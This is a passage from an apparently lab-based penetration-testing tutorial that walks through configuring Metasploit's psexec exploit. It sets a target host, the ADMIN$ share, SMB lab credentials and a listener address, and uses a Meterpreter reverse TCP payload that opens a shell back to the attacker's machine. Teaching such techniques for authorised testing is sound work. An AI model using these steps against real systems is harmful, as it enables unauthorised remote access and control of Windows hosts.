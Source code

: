 ```shell-session


Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     68.183.42.102    yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic
```

This is one area where Metasploit shines in terms of ease of use. In the output of the module options, we see various options and settings with a description of what each setting means. We will not be using `SERVICE_DESCRIPTION`, `SERVICE_DISPLAY_NAME` and `SERVICE_NAME` in this section. Notice how this particular exploit will use a reverse TCP shell connection utilizing `Meterpreter`. A Meterpreter shell gives us far more functionality than a raw TCP reverse shell, as we established in this module's earlier sections. It is the default payload that is used in Metasploit.

We will want to use the `set` command to configure the following settings as such:

#### Setting Options

  Automating Payloads & Delivery with Metasploit

```shell-session

msf6 exploit(windows/smb/psexec) > set RHOSTS 10.129.180.71
RHOSTS => 10.129.180.71
msf6 exploit(windows/smb/psexec) > set SHARE ADMIN$
SHARE => ADMIN$
msf6 exploit(windows/smb/psexec) > set SMBPass HTB_@cademy_stdnt!
SMBPass => HTB_@cademy_stdnt!
msf6 exploit(windows/smb/psexec) > set SMBUser htb-student
SMBUser => htb-student
msf6 exploit(windows/smb/psexec) > set LHOST 10.10.14.222
LHOST => 10.10.14.222
```

These settings will ensure that our payload is delivered to the proper target (`RHOSTS`), uploaded to the default administrative share (`ADMIN$`) utilizing credentials (`SMBPass` & `SMBUser`), then initiate a reverse shell connection with our local host machine (`LHOST`).

These settings will be specific to the IP address on your attack box and on the target box. As well as with credentials you may gather on an engagement. We can set the LHOST (local host) VPN tunnel IP address or the VPN tunnel interface ID.

#### Exploits Away
